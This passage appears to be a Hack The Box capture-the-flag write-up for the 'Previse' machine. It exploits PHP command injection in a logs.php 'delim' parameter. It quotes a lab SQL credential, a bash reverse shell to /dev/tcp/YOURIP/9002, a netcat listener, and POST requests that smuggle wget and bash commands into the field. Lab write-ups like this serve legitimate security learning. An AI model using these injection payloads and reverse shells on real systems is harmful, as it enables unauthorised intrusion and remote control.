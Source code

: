 After we send the request we can login as our user!

# WWW Shell
I found some sql creds inside config.php `root:mySQL_p@ssw0rd!:)` and a database of `previse` this will probably be useful later

Looking at the php code I found that there was a line inside logs.php that was vulnerable. Its vulnerable because its taking the argument "delim" and executing it on the system. We can add `;id` to the correct argument to run the `id` command as well here is a good article to read more about command injection https://www.stackhawk.com/blog/php-command-injection/

`$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");` 

We can modify the request to get code execution. I tried executing a bash reverse shell but because of some of the characters it did not work. So I put it into a file and copied it onto the box then executed it. 

rev.sh
`bash -i >& /dev/tcp/YOURIP/9002 0>&1`

Set up http python server
```
┌──(root💀kali)-[~/htb/previse]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Get rev.sh onto the machine
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=aj9nus42p8d3papn711r6hjqq3
Upgrade-Insecure-Requests: 1

delim=comma%26wget+YOURIP/rev.sh
```

Set up a listener for shell
`nc -lvnp 9002`  

Execute rev.sh
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=aj9nus42p8d3papn711r6hjqq3
Upgrade-Insecure-Requests: 1

delim=comma%26bash+rev.sh
```
